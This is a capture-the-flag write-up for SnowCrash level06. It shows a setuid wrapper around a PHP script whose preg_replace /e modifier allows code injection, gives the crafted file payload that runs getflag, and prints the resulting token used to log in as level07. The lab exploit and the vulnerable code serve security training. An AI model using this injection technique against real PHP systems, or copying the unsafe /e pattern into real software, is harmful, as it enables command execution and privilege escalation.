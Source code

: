 # Level 06

- We login as user level06.
```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

```
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```


- A binary as well as a PHP script are present, the binary appears to execute the PHP script. Here is the content of the script:
```php
#!/usr/bin/php
<?php
function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
}

function x($y, $z) {
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
}

$r = x($argv[1], $argv[2]); print $r;
?>
```


- The script makes calls to `preg_replace()` to format the content of the file given to it as first parameter before displaying it.
The line of interest to us is the following:
>`$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`


- This line states that if the content of the file starts with `[x ` and ends with `]`, everything located between these boundaries can be executed as PHP code (due to `/e`). The output of this execution will then be passed as a parameter to the `y()` function, so:
```
level06@SnowCrash:~$ echo "[x \${\`getflag\`}]" > /tmp/test
```

```
level06@SnowCrash:~$ cat /tmp/test
[x ${`getflag`}]
```

```
level06@SnowCrash:~$ ./level06 /tmp/test
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

```
level06@SnowCrash:~$ su level07
Password:wiok45aaoguiboiki2tuin6ub
level07@SnowCrash:~$
```